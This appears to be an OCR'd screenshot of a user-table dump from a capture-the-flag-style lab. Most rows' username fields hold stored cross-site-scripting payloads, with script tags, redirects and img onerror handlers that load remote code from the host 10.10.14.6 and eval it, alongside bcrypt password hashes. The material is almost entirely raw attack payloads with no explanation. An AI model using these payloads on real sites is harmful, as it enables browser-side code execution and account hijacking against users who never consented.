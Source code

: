     112|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<script src="http://10.10.14.6/x.js"></script>|$2a$12$wgTlg7DLNb.pkdxBLVHc3O0IGQXkXunE1U5SpMH.tQBxY607fdQza|user|2023-07-19 21:16:10.817502|2023-07-19 21:16:10.817502
    113|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<script>document.location="http://10.10.14.6/test";</script>|$2a$12$D2JoijAMCVcIrKVL34vdJeA6P.fXeRRZSstyqRORQ17DW/aRtZNNe|user|2023-07-19 21:19:48.760857|2023-07-19 21:19:48.760857
    114|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror=document.location="http://10.10.14.6/xss" />|$2a$12$FHBL2qUuFUC/66Zoa6HdmOJud.snVige.ub45vd1NZ5bQrNp8qCei|user|2023-07-19 21:20:52.458749|2023-07-19 21:20:52.458749
    115|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="document.location=http://10.10.14.6/xss" />|$2a$12$.ktGXw2gESMAs1ne/tUtnOU2/N2brvmakxeEMzyem2APDCdz/tcqC|user|2023-07-19 21:21:34.761976|2023-07-19 21:21:34.761976
    116|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<select<style/><img src='http://10.10.14.6/xss>|$2a$12$8olOWHQVwKVNqV6eUmKXgOyiaHOQcJAH3ZLPIu6LnYSSd86nKj64i|user|2023-07-19 21:31:08.330215|2023-07-19 21:31:08.330215
    117|c0derpwnerc0derpwnerc0derpwnerc0derpwnerc0derpwn<select<style/><img src='http://10.10.14.6/c0derpwner'>|$2a$12$DFrJEGH6dwlQ/neQawQGQuacgCd4gtQwOTTZ/uPpXVaOOROwZEM9K|user|2023-07-19 21:32:20.269798|2023-07-19 21:32:20.269798
    118|c0derpwnerc0derpwnerc0derpwnerc0derpwnerc0derpwn<select<style/><img src='http://10.10.14.6/c0derpwner'>|$2a$12$YDADEpUR8qWm5NMMXJ2FK.MRp22Ju9YD1nSKu6taUEGV2TPFqrZvu|user|2023-07-19 21:32:44.208237|2023-07-19 21:32:44.208237
    119|ahahhahhahahahhahahhahahhahahahhahahahhahahha<script src=http://10.10.14.6/lol></script>|$2a$12$4VlQAACmOgiB2KIvgogfOeojnJqgD9CAWpR04R2NunB1YB12TUEOO|user|2023-07-19 21:34:02.621965|2023-07-19 21:34:02.621965
    120|hahahahhahhahahahhahahhahahhahahahhahahahhahahha<script src=http://10.10.14.6/lol></script>|$2a$12$x08EqabROixvtZ9lO0fKI.iB3bVu9mjsvl5ZofLOhrSMAPnOapPoa|user|2023-07-19 21:34:36.188247|2023-07-19 21:34:36.188247
    121|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror='const varName = require(http://10.10.14.6/require);'/>|$2a$12$JleUHwZVt0pa/oVrw06jvupUoyzD.jfbPK5oJVQqSoKTFWJklIS3m|user|2023-07-19 21:43:42.416208|2023-07-19 21:43:42.416208
    122|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror=import('http://10.10.14.6/import/x.js;') />|$2a$12$7sDTadpV7cnnMsaF8R.6ceLZosCL4HFlSht3Ohf0bn1J2tQb62jDC|user|2023-07-19 21:45:25.750435|2023-07-19 21:45:25.750435
    123|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror=require('http://10.10.14.6/import/x.js;') />|$2a$12$OXUmiZeRioUjEu9wlp1GcObPK52EQFj8w3M0pW4GD6e4l.dGE5I/S|user|2023-07-19 21:46:10.078449|2023-07-19 21:46:10.078449
    124|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A|$2a$12$nL101K.SuBoM2U3ux0a9huq4rqBwfXLETxHL8ZkY6sfVqrnv0dE1G|user|2023-07-19 21:46:19.048602|2023-07-19 21:46:19.048602
    125|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror=const a = require('http://10.10.14.6/import/x.js'); a.run(); />|$2a$12$PTHPuQoworOSyiXXlIuZ1OQV.qwYscmNtAQ4GyH/CzOJpcnHLOS6S|user|2023-07-19 21:47:36.189326|2023-07-19 21:47:36.189326
    126|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="const a = require('http://10.10.14.6/import/x.js'); a.run();" />|$2a$12$zLNLJWL.rtWd17NRl7vs.uJPHOjm37vQSf8Ioshqp5qsoKgXiAPCW|user|2023-07-19 21:48:07.684613|2023-07-19 21:48:07.684613
    127|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<script>alert(1)</script>|$2a$12$f4hE7yXCcUNoJbWzmxf3devlPPN3TSmFNZRV0NaWORpCQ5Ub50JU6|user|2023-07-19 21:50:16.602200|2023-07-19 21:50:16.602200
    128|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror=fetch('http://10.10.14.6/fetch') />|$2a$12$3IQ73uvHr9INl2Z4X9AgeeSgx3ZJWYaG00GwSgK4QKjPKaj7OG0jW|user|2023-07-19 21:54:54.220252|2023-07-19 21:54:54.220252
    129|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror=fetch('http://10.10.14.6/fetch').then(function(r){ eval(r);} />|$2a$12$dBI04HB28z./PKSpx9e4qONoL8elaNFw0DIhI9pDvFHzxFRvaROXe|user|2023-07-19 21:56:49.268887|2023-07-19 21:56:49.268887
    130|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror=fetch('http://10.10.14.6/fetch').then(function(r){ eval(r);}) />|$2a$12$csPSXYP9.6JBahQzROwPS.C2LuJX4wvJM.BPrXii5qEauhWMYBLLq|user|2023-07-19 21:57:33.337693|2023-07-19 21:57:33.337693
    131|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="x=1; alert(x)" />|$2a$12$Ioelh/zWWuxdHYzTOqsHMuZj4t3F8gKpSHmK6iGOrMyw0lZIv/2u.|user|2023-07-19 22:03:48.158132|2023-07-19 22:03:48.158132
    132|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="x=await fetch('http://10.10.14.6/await');alert(x)" />|$2a$12$zRhbvL59z3pH3AMfhMHGfeP1RcjLXP2iUGSjpDrOJrNd.4.pWJrOG|user|2023-07-19 22:04:32.743237|2023-07-19 22:04:32.743237
    133|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="x=await fetch('http://10.10.14.6/await');" />|$2a$12$QxzqSC2ssf6wPFXnYaOIqemdBaf9RoBt2J2F9lGqrxsZyx93YzTrG|user|2023-07-19 22:05:11.424591|2023-07-19 22:05:11.424591
    134|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/console').then(r => r.text()).then(t => {alert(t)});" />|$2a$12$gPnbAd9MQFUiWNsRe8n7aO1xcZmrT6JQ3e2TQRxR3xp0GJbLVxLji|user|2023-07-19 22:07:38.687065|2023-07-19 22:07:38.687065
    135|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/console').then(r => r.text()).then(t => {eval(t)});" />|$2a$12$lifVKjRQjzZZwCyYwtm.u.4La1NSI1ngDyJZy17nD0ZgmGM.Ug5lC|user|2023-07-19 22:08:35.307521|2023-07-19 22:08:35.307521